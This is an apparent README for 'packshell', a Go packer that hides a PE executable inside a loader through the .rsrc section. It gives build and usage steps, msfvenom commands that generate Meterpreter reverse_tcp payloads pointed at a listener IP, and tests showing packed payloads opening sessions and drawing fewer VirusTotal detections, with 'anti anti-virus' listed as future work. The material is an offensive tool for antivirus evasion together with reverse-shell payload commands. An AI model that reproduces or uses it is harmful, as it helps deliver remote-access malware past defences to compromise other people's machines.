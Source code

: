 # packshell
A tool create a new file using a custom shell and a source pe files

use PE .rsrc section

# Usage

1. download dependencies

```shell
go mod download
```

2. complie the shell.go use this command

```shell
go build -o shell.exe .\cmd\shell.go
```

3. complie the packer.go use this command

```shell
go build -o packer.exe .\cmd\packer.go
```

4. move your pe file which you want execute into this project's root directory

5. use this command to create new file which with a shell

```
.\packer <your pe file> <output file>
```

6. execute the output file



# Detail

![detail](./images/detail.jpg)

# Test

## logic test-msf exe

- use msfvenom create a test pe file

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f exe -o win_normal.exe
```

- msf create a listener

![msf](./images/msf.png)

- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_normal.exe win_pack.exe
```

- execute new file and msf get a session

![session](./images/session-exe.png)



## logic test-msf shellcode

- use msfvenom create a test shellcode

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f golang -o golang_exp.txt
```

- msf create a listener

  ![image-20230607182327184](./images/msf.png)

- use golang shellcode loader create a exe file
- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_sc_normal.exe win_sc_pack.exe
```

- execute new file and msf get a session

![image-20230607182557515](.\images\session-sc.png)

## anti-virus test

### msf exe

- unpack file in virustotal

![unpack](./images/unpack-exe.png)

- packed file in virustotal

![packed](./images/packed-exe.png)

### msf shellcode

- unpack file in virustotal

![image-20230607182947156](.\images\unpack-sc.png)

- packed file in virustotal

![image-20230607183021362](.\images\packed-sc.png)

# TODO

- [ ] anti anti-virus

